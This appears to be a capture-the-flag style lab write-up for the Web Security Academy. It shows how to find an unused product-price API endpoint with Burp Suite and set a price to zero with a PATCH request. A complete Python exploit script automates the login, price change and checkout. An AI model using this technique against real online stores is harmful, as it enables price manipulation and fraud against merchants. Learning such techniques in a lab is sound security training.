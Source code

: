 ```yaml
---
title: 'API Lab 3'
description: 'Finding and exploiting an unused API endpoint to manipulate product pricing'
---
```



## Finding and exploiting an unused API endpoint

<div style="text-align: justify;">
  In this lab, I discovered and exploited a hidden API endpoint that allowed me to change the price of a product. The application exposes a product API (for example `/api/products/1/price`) used by the product page. By inspecting the API with Burp Suite and changing the HTTP method from `GET` to `OPTIONS` and then to `PATCH`, I found that the server accepted `PATCH` for updating the product. After authenticating as <code>wiener:peter</code>, sending a `PATCH` request with the correct `Content-Type: application/json` and a JSON body `{"price":0}` successfully set the product price to $0.00. Finally I added the item to the cart and placed the order to solve the lab.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- Inspect the product API request in Proxy > HTTP history (e.g. `/api/products/1/price`).
- Send the request to Repeater and use `OPTIONS` to enumerate allowed methods (server may respond with `GET, PATCH`).
- Switch the method to `PATCH` — an unauthenticated request may return `Unauthorized`, indicating authentication is required.
- Log in to the app using `wiener:peter`.
- In Repeater, set `Content-Type: application/json` and use a JSON body; start with `{}` to observe error messages.
- Add the required `price` parameter, e.g. `{"price":0}`, and send the `PATCH` request.
- Reload the product page, add the (now free) product to the basket and place the order to complete the lab.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import sys
import re
import requests
import urllib3
from bs4 import BeautifulSoup

# silence lab/self-signed cert warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# proxy + creds (default)
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
USERNAME, PASSWORD = "wiener", "peter"
PRODUCT_ID = "1"   # lab-known product id
TIMEOUT = 8

# simple session with Burp proxy
S = requests.Session()
S.verify = False
S.proxies.update(proxies)


def extract_csrf(html):
    """Return first input[name=csrf] value or None."""
    m = re.search(r'name=["\']?csrf["\']?\s+value=["\']([^"\']+)', html, re.IGNORECASE)
    return m.group(1) if m else None


def fetch(path):
    return S.get(BASE + path, allow_redirects=False, timeout=TIMEOUT)


def post(path, data=None, json=None):
    return S.post(BASE + path, data=data, json=json, allow_redirects=False, timeout=TIMEOUT)


def patch(path, json_body):
    return S.request("PATCH", BASE + path, json=json_body,
                     headers={"Content-Type": "application/json"}, allow_redirects=False, timeout=TIMEOUT)


def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} https://<lab-id>.web-security-academy.net")
        sys.exit(1)

    global BASE
    BASE = sys.argv[1].rstrip("/")

    # 1) fetch login page -> extract csrf & initial session cookie
    r = fetch("/login")
    csrf = extract_csrf(r.text)
    initial_session = r.cookies.get("session")
    if initial_session:
        S.cookies.set("session", initial_session)

    # 2) login as wiener
    payload = {"username": USERNAME, "password": PASSWORD}
    if csrf:
        payload["csrf"] = csrf
    r = post("/login", data=payload)
    new_session = r.cookies.get("session") or S.cookies.get("session")
    if not new_session:
        print("[-] Login failed (no session).")
        sys.exit(1)
    S.cookies.set("session", new_session)
    print("[+] Logged in")

    # 3) PATCH product price -> 0
    print(f"[*] Patching /api/products/{PRODUCT_ID}/price -> 0")
    r = patch(f"/api/products/{PRODUCT_ID}/price", {"price": 0})
    print(f"    PATCH status: {r.status_code}")

    # 4) Add product to cart (lab form)
    post("/cart", data={"productId": PRODUCT_ID, "redir": "PRODUCT", "quantity": "1"})
    print("[+] Added to cart (best-effort)")

    # 5) Fetch cart and extract csrf for checkout
    r = fetch("/cart")
    csrf_cart = extract_csrf(r.text)
    if not csrf_cart:
        print("[-] No CSRF on cart page; open lab in browser and finish checkout manually.")
        sys.exit(1)

    # 6) Checkout
    post("/cart/checkout", data={"csrf": csrf_cart})
    # 7) Final confirmation hit (lab expects this)
    fetch("/cart/order-confirmation?order-confirmed=true")

    print("[✓] Done — verify the lab in the browser.")

if __name__ == "__main__":
    main()
```